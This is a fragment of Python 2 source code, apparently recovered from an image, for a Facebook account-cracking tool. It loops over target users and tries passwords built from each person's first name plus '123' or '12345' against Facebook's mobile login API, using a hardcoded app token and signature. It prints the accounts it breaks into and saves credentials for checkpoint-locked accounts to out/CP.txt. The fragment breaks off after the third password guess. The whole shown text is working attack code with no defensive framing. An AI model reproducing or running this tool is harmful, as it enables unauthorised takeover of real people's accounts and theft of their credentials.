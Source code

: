 			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass1 + ' 👽 ' + b['name']

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass1 + ' 👽 ' + b['name']

					cek = open("out/CP.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name'] + '123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass2 + ' 👽 ' + b['name']

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass2 + ' 👽 ' + b['name']

							cek = open("out/CP.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '12345'

